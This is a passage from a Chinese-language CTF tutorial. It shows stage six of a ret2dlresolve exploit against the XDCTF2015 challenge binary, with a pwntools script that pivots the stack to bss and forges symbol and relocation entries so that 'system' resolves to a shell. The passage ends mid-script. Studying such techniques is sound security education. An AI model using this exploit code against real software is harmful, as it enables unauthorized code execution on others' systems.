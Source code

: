 #### STAGE6

这一阶段，我们只需要将原先的 write 字符串修改为 system 字符串，同时修改 write 的参数为 system 的参数即可获取 shell。这是因为，dl_resolve 最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  ## stack pivoting to bss segment
  ## new stack size is 0x800
  stack_size = 0x800
  base_stage = bss_addr + stack_size
  ### padding
  rop.raw('a' * offset)
  ### read 100 byte to base_stage
  rop.read(0, base_stage, 100)
  ### stack pivoting, set esp = base_stage
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  ## write sh="/bin/sh"
  rop = ROP('./main')
  sh = "/bin/sh"

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
  dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

  ### making fake write symbol
  fake_sym_addr = base_stage + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                  )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
  fake_sym_addr = fake_sym_addr + align
  index_dynsym = (
      fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
  ## plus 10 since the size of Elf32_Sym is 16.
  st_name = fake_sym_addr + 0x10 - dynstr
  fake_write_sym = flat([st_name, 0, 0, 0x12])

  ### making fake write relocation

  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = (index_dynsym << 8) | 0x7
  fake_write_reloc = flat([write_got, r_info])

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(base_stage + 82)
  rop.raw('bbbb')
  rop.raw('bbbb')
  rop.raw(fake_write_reloc)  # fake write reloc
```